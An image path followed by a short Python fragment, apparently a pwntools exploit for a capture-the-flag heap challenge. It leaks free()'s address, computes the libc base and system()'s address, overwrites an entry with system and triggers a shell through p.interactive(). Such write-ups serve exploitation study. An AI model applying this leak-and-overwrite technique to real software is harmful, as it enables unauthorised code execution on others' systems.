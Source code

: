 ```python
show(1)
p.recvuntil("Content : ")
data = p.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))

libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']

edit(1, p64(system_addr))
#gdb.attach(p)
delete(0)
#gdb.attach(p)
p.interactive()
```

